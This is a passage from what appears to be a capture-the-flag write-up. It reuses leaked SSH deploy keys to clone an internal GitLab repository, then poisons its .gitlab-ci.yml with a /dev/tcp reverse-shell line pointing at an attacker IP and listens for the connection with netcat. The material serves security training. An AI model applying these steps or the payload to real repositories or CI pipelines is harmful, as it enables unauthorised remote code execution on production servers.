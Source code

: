 ```sh
git reset --hard abdea0ebb21b156c01f7533cea3b895c26198c98
```

Let's copy this `.ssh` directory to our home.

```sh
cp -r .ssh/ ~
```

Let's also not forget imposing the correct permissions on the private key.

```sh
chmod 600 ~/.ssh/.deploy
```

We will make a config file in the `~/.ssh` directory so that the deploy keys are used when connecting to the internal gitlab endpoint. We write the following to `~/.ssh/config`:

```
Host gitlab.flag.net.internal
  HostName gitlab.flag.net.internal
  User git
  IdentityFile ~/.ssh/.deploy
```

We will backup whatever we had cloned initially.

```sh
cd ..
mv wordpress.flag.net.internal/ bak
```

Let's clone the repository using the SSH keys. This way we will be able to impersonate as the author and push any changes made to the repository.

```sh
git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```

There's a `.gitlab-ci.yml` that looks like the following:
```
deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```

We will now append the following line to it:

```
    - sh -i >& /dev/tcp/172.18.0.99/9001 0>&1
```

This adds a script under the deploy jobs that starts a reverse shell back to us. Since we need to start a listener in a separate terminal, we will run `tmux`. Let's start listening for the reverse shell.

```sh
nc -lvp 9001
```
